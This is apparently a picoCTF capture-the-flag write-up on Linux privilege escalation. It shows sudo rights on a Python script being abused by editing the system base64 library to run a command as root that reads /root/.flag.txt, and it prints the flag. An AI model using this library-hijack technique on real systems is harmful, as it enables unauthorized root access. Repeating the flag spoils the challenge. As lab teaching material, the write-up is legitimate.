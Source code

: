 ```yaml
---
ai_date: 2025-04-27 05:29:42
ai_summary: Escalated privileges by modifying Python library to execute system command and retrieving the flag
ai_tags:
  - python
  - library-hijack
  - sys-call
created: 2024-11-16T15:01
tags:
  - escalation
updated: 2025-07-14T09:46
---
```


python based linux escalation.
## escalation

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can run `.server.py` without password, but it is readonly.

```python [.server.py]
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

We can instead edit python libraries.

```bash
vi /lib/python3.8/base64.py
```

Add these lines

```python
import os
os.system('cat /root/.flag.txt')
```

Run the python file.

```bash
sudo /usr/bin/python3 /home/picoctf/.server.py
```

```flag
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
```